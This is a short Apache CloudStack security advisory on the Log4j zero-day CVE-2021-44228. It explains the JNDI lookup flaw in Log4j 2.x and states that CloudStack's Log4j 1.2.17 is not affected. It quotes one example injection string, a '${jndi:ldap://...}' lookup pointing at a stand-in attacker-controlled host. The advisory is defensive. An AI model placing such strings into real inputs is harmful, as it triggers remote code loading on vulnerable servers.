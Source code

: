 ```yaml
---
layout: post
title: CloudStack Advisory on Apache Log4j Zero Day (CVE-2021-44228)
date: '2021-12-13T11:12:50+00:00'
permalink: log4jshell
---
```

On 9th December 2021, a new zero-day vulnerability for Apache Log4j was reported. It is by now tracked under CVE-2021-44228:
<a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228">https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228</a>.

CVE-2021-44228 vulnerability is classified under the highest severity mark and allows an attacker to execute arbitrary code by injecting a sub-string in the form "${jndi:ldap://some.attacker-controlled.site/}" into a logged message. Apache Log4j 2.x is reported to be affected as it performs a lookup (string substitution) using the JNDI protocol, whenever the "${jndi:...}" string is found within a message parameter.

The Apache <a href="https://github.com/apache/logging-log4j2/pull/608#issuecomment-990494126">Log4j developers</a> and the <a href="http://slf4j.org/log4shell.html">SLF4J project advisory</a> confirm that Apache Log4j 1.x does not offer a look-up mechanism and does not suffer remote code execution (RCE) vulnerability from CVE-2021-44228.

All Apache CloudStack releases since v4.6 use Apache Log4j version 1.2.17 and therefore are not affected by this RCE vulnerability. Most users who haven't changed the default log4j xml config don't need to do anything, advanced users can check and fix their log4j xml configuration if they're using any custom JMS appenders.

The Apache CloudStack project will consider migrating to a different version of Apache Log4j in future releases.
